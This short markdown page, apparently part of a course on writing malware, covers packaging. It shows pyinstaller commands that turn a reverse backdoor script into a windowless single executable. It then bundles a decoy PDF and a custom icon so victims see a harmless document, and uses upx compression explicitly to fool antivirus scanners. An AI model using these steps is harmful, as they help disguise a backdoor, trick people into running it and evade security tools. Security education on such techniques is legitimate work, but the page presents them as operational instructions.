 # Section 15: Writing Malware - Packaging

Sources in this section are based on `section-14` and `section-12` files

`pyinstaller` is used to package Python script as executable. To convert a script, execute:
```shell
pyinstaller reverse_backdoor.py --noconsole --onefile
```

Next improvement is to show in foreground something useful to user, say PDF file and an icon for a file:
```shell
pyinstaller reverse_backdoor.py --noconsole --onefile --add-data "/var/www/html/files/sample.pdf;." --icon /path/to/.ico/file
```

Next use [upx](https://github.com/upx/upx) to compress binary to better fool antivirus scanner:
```shell
./upx /path/to/executable /path/to/compressed/executable
```